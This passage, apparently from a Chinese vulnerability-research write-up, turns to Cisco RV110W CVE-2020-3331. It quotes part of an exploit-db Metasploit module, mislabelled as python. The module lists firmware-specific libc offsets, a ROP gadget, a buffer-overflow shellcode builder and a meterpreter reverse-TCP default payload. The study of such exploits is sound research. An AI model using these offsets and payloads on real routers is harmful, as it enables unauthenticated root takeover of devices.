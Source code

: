 ### 小结

所以说还是那两个问题：

+ CGI的启动参数/环境变量
  + 比如这里在固件模拟的时候我在Exp一直没完善headers，http包发不出去
+ 远程libc问题
  + 动态的话我觉的只能碰撞了



## RV110W---CVE-2020-3331

### 信息收集

漏洞描述：

> Cisco RV110W Wireless-N VPN防火墙和Cisco RV215W Wireless-N VPN路由器的基于Web的管理界面中的漏洞可能允许未经身份验证的远程攻击者在受影响的设备上执行任意代码。该漏洞是由于基于Web的管理界面未正确验证用户提供的输入数据而引起的。攻击者可以通过向特定设备发送精心设计的请求来利用此漏洞。成功的利用可能使攻击者利用root用户的特权执行任意代码。

固件版本：RV110W_FW_1.2.2.5.bin

从exploit-db中查到历史漏洞的exp：

```python
  		[ 'Cisco RV215W 1.2.0.15',
            {
              'offset'              => 69,
              'libc_base_addr'      => 0x2af5f000,
              'libcrypto_base_addr' => 0x2ac5a000,
              'system_offset'       => 0x0004c7e0,
              'got_offset'          => 0x00098db0,
              # gadget 1 is in /usr/lib/libcrypto.so
              'gadget1'             => 0x0005059c, # addiu $s0, $sp, 0x20; move $t9, $s4; jalr $t9; move $a0, $s0;
              'Arch'                => ARCH_MIPSLE,
              'DefaultOptions'  => {
                'PAYLOAD'         => 'linux/mipsle/meterpreter_reverse_tcp',
              }
            }
          ],
    .....
 def prepare_shellcode(cmd)
    case target
    # RV110W 1.1.0.9, 1.2.0.9, 1.2.0.10, 1.2.1.4, 1.2.1.7
    # RV215W 1.1.0.5, 1.1.0.6, 1.2.0.14, 1.2.0.15, 1.3.0.7, 1.3.0.8
    when targets[0], targets[1], targets[2], targets[3], targets[4], targets[6], targets[7], targets[8], targets[9], targets[10], targets[11]
      shellcode = rand_text_alpha(target['offset']) +           # filler
        rand_text_alpha(4) +                                    # $s0
        rand_text_alpha(4) +                                    # $s1
        rand_text_alpha(4) +                                    # $s2
        rand_text_alpha(4) +                                    # $s3
        p(target['libc_base_addr'], target['system_offset']) +  # $s4
        rand_text_alpha(4) +                                    # $s5
        rand_text_alpha(4) +                                    # $s6
        rand_text_alpha(4) +                                    # $s7
        rand_text_alpha(4) +                                    # $s8
        p(target['libcrypto_base_addr'], target['gadget1']) +   # $ra
        p(target['libc_base_addr'], target['got_offset']) +
        rand_text_alpha(28) +
        cmd
      shellcode
    ....
  def send_request(buffer)
```